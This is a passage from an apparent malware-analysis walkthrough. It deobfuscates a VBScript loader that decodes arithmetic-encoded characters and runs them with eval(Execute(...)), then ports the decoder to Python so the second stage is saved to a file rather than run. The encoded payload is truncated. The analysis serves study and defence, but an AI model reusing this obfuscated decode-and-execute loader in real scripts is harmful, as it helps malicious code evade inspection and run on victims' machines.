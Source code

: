 After splited, it'll loop through every index in the `splitedStringsOfNumbers` array, which will again convert those numbers to a character.

**Hence, we can rename those variables!**
```vb
dIM stringsOfNumbers, splitedStringsOfNumbers, evaledStringsOfNumbers
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
stringsOfNumbers = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
splitedStringsOfNumbers = splIt(stringsOfNumbers, "*")
for each number In splitedStringsOfNumbers
evaledStringsOfNumbers = evaledStringsOfNumbers & Chr(eVaL(number))
NEXT
lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD
end SUb
```

It's much more clear now!

**After that for loop, it'll invoke function `lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD`:**
```vb
SUb LXTvAQufKFkHMxJwGYFOsFUwJcYBTRDPuPUdadnmD
eval(eXecUTe(evaledStringsOfNumbers))
enD sUB
```

**Which executes the payload. (DO NOT RUN THIS EVAL)**

**So, after all the renames, the deobfucasted VBScript is this:**
```vb
dIM stringsOfNumbers, splitedStringsOfNumbers, evaledStringsOfNumbers
Sub functionSplitStringsOfNumbers
stringsOfNumbers = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
splitedStringsOfNumbers = splIt(stringsOfNumbers, "*")
for each number In splitedStringsOfNumbers
evaledStringsOfNumbers = evaledStringsOfNumbers & Chr(eVaL(number))
NEXT
evalPayload
end SUb
SUb evalPayload
eval(eXecUTe(evaledStringsOfNumbers))
enD sUB
functionSplitStringsOfNumbers
```

**Now, we can convert the above script to Python:**
```python
#!/usr/bin/env python3

def functionSplitStringsOfNumbers():
    global evaledStringsOfNumbers
    evaledStringsOfNumbers = ''
    stringsOfNumbers = '399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-[...]*2065-2024'
    splitedStringsOfNumbers = stringsOfNumbers.split('*')
    for number in splitedStringsOfNumbers:
        evaledStringsOfNumbers += chr(int(eval(number)))

    evalPayload()

def evalPayload():
    # DO NOT RUN THE EVAL
    # eval(evaledStringsOfNumbers)
    with open('stage2.vbs', 'w') as file:
        file.write(evaledStringsOfNumbers)

if __name__ == '__main__':
```